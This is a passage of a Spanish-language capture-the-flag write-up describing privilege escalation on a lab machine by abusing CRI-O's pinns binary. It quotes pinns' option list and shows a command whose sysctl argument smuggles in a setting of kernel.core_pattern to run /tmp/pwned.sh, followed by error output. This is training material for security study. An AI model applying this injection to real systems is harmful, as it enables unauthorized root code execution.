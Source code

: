 Como no sabemos que parámetros podemos utilizar con `pinns` ya que por alguna razón no tiene menú de ayuda, podemos revisar [el código fuente](https://github.com/cri-o/cri-o/tree/main/pinns) para poder leer los parámetros que acepta.

```c
static const struct option long_options[] = {
      {"help", no_argument, NULL, 'h'},
      {"uts", optional_argument, NULL, 'u'},
      {"ipc", optional_argument, NULL, 'i'},
      {"net", optional_argument, NULL, 'n'},
      {"user", optional_argument, NULL, 'U'},
      {"cgroup", optional_argument, NULL, 'c'},
      {"mnt", optional_argument, NULL, 'm'},
      {"dir", required_argument, NULL, 'd'},
      {"filename", required_argument, NULL, 'f'},
      {"uid-mapping", optional_argument, NULL, UID_MAPPING},
      {"gid-mapping", optional_argument, NULL, GID_MAPPING},
      {"sysctl", optional_argument, NULL, 's'},
  };
```

## Modifying Core Pattern to Malicious Script
Nos interesa el parámetro `sysctl` que es el que podemos abusar para cambiar el valor de `kernel.core_pattern`
![Write-up Image](images/Screenshot_25.png)

Vemos que tenemos un error.
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh'
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
```

Este error proviene de la línea 141, se requiere que `pin_path` tenga un valor que sería una ruta del sistema, este valor proviene del parámetro `-d`
```c
if (!pin_path) {
    nexit("Path for pinning namespaces not specified");
  }
```


[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
[pinns:w]: Failed to create ns file: File exists